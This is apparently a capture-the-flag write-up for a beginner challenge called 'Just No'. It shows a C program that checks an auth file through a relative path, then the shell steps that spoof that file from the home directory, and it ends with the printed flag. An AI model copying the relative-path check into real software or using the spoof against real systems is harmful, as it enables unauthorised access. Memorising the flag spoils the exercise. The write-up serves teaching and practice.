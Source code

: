 # Just No
## Level 1 - binary exploitation - 40 points

### Description
> A program at /problems/f49abea6827cafa20a035340d3812d09 has access to a flag but refuses to share it. Can you convince it otherwise?

### Hints
> * Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

### Solution

Connect with `ssh` then `cd` into `/problems/f49abea6827cafa20a035340d3812d09`. Executing `justno` prints this:

```
$ ./justno
auth file says no. So no. Just... no.
```

It talks about an `auth` file: it's in the same directory, you can `cat` it but is readonly, so we can't just edit it. There is also the source in `justno.c` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    FILE* authf = fopen("../../problems/f49abea6827cafa20a035340d3812d09/auth","r"); //access auth file in ../../../problems/f49abea6827cafa20a035340d3812d09
    if(authf == NULL){
        printf("could not find auth file in ../../problems/f49abea6827cafa20a035340d3812d09/\n");
        return 0;
    }
    char auth[8];
    fgets(auth,8,authf);
    fclose(authf);
    if(strcmp(auth,"no")!=0){
        FILE* flagf;
        flagf = fopen("/problems/f49abea6827cafa20a035340d3812d09/flag","r");
        char flag[64];
        fgets(flag,64,flagf);
        printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
        fclose(flagf);
    }else{
        printf("auth file says no. So no. Just... no.\n");
    }
    return 0;
}
```

So the executable uses relative path to read the `auth` file, we can trick it recreating the same directory structure in our home directory and call `justno` from there. Let's craft the `auth` file first:

```sh
$ mkdir -p ~/problems/f49abea6827cafa20a035340d3812d09
$ echo yes > ~/problems/f49abea6827cafa20a035340d3812d09/auth
```

After write the file move into that directory and execute `justno` using absolute path:

```
$ cd ~/problems/f49abea6827cafa20a035340d3812d09
$ /problems/f49abea6827cafa20a035340d3812d09/justno
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 6882905ccde9eeceac01f98cb0260fc2
```

### Flag

```
6882905ccde9eeceac01f98cb0260fc2
```